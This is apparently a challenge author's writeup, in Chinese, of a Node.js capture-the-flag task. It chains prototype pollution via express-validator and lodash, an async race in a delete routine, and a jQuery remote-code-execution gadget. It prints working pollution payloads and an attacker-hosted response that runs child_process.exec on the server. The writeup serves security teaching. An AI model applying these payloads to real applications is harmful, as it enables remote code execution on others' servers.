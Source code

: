 ## 前言

这道题原型链污染的考点设计初衷是出题的时候搜寻到了很多基础库的原型链污染漏洞，但是如果直接把基础库的漏洞拿过来写在题目逻辑里太容易被发现了，就想怎么让这个环节更有意思一点，于是就去审了几个依赖于有漏洞的基础组件的上层功能库，找到了`express-validator`这个基于`lodash`的无法控制value的原型链污染。这个限制又让我觉得此前的原型链污染是不是确实太友好了，如果只给有限的污染能力我们是不是也可以做一些有意思的事情呢？基于这些想法，设计了这道题目。

三个js文件对应三个考点：

app.js -> 有限的原型链污染

entity.js -> 异步产生的bug

utils.js -> jQuery.js RCE gadget

下面是简易版wp。详细分析见[这里](./writeup.md)

## 预期解

### #1 原型链污染

通过任意一个POST方式的API发送一个带下面字段的请求，污染crossDomain为空字符串`''`

```
{"\".constructor.prototype[\"crossDomain": "1   "}
```

结果

```javascript
Object.prototype.crossDomain = ''
```

### #2 异步逻辑错误篡改block的type

DataRepository类的D方法会进行blocks的递归删除，

```javascript
	D(id) {
		let di, dt
		for (const index in this.datas) {
			if (this.datas[index].id === id) {
				dt = this.types[index]
				this.types.splice(index, 1)
				di = index
			}
		}
		if (dt === 'url') {
			requests(this.datas[di].block, "DELETE").finally(() => {
				this.datas = this.datas.filter((value) => value.id !== id)
			})
		} else {
			this.datas = this.datas.filter((value) => value.id !== id)
		}
	}
```

但是删除的时候是先pop了`this.types`中的内容，然后把`this.datas`内容的删除放到了一个异步函数`requests`中去。由于异步函数的特性，导致了两个数组的信息存在一个时间差内的不一致，确切的说就是`this.datas`数组在某段时间内比`this.types`长一点。第二个考点就是要抓住这个时间窗口，构造一段数据使得本来是`text`类型的内容，从`this.types`中取出来的类型确实`url`，从而控制`requests`函数的url参数。

具体的构造方式就是在`this.datas`比`this.types`长n个的这个时间段内，先POST 1个`text`类型的数据，内容是我们自己的url，然后POST n个url类型的数据，内容符合要求即可。这时我们第一次POST的`text`类型的url，从`this.types`取出来就是`url`。

### #3 触发jQuery中的RCE Gadget

访问我们上一步POST的那个`text`类型的数据，让题目访问我们自己的url。url指向的返回头和内容如下：

```bash
HTTP/1.1 200 OK
Content-Type: text/javascript; charset=utf-8
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: X-Requested-With, crossDomain
Content-Length: 133

this.constructor.constructor('return process.mainModule.require("child_process").exec("open /System/Applications/Calculator.app")')()
```

成功弹出`calculator！`

<img src="./assets/image-20201020193755595.png" alt="image-20201020193755595" style="zoom:50%;" />

## 非预期

看了下wp，3个师傅是预期做的，0ops的师傅竟然做到了任意原型链污染（惊

由于手贱加了个json中间件，允许传入object，导致可以污染任意值，payload如下

```
{"block": {"__proto__": {"a": 123}}, "block\"].__proto__[\"a": 123}
```

相当于劫持了value，具体师傅们自己分析啦。

师傅们tql

## 总结

原型链污染漏洞的强大就不必多说了，各位师傅的gadget也是五花八门让小弟学到了很多。我想说的是虽然各种基础库的原型链污染漏洞层出不穷值得关注，但是依赖于基础库的上层模块暴露出来的攻击面也同样值得注意。